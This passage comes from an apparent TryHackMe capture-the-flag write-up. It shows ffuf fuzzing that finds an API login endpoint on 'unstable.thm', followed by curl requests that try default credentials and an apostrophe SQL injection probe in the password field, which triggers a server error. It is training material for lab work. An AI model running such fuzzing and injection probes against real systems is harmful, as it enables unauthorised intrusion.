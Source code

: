 From this we take it that there is something else beyond this API, so we run Ffuf again and look what is after /api:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# ffuf -mc all -fs 233 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://unstable.thm/api/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://unstable.thm/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 233
________________________________________________
login                   [Status: 405, Size: 178, Words: 20, Lines: 5]
:: Progress: [220547/220547] :: Job [1/1] :: 0 req/sec :: Duration: [0:37:24] :: Errors: 0 ::
```

## SQLi using Curl

Ok. Now we're looking good. We've found a login endpoint. Let's have a look at that with Curl:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# curl -X POST http://unstable.thm/api/login
"The username or password passed are not correct."
```

How about trying default credentials:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# curl -X POST 'http://unstable.thm/api/login' -d "username=admin&password=admin"
"The username or password passed are not correct."
```

Let's check for SQL injection vulnerabilities. [Here](https://github.com/payloadbox/sql-injection-payload-list) is a good list of payloads if you need it, i'll use the first one which is appending apostrophe after the password:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# curl -X POST 'http://unstable.thm/api/login' -d "username=admin&password=admin'"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>
```
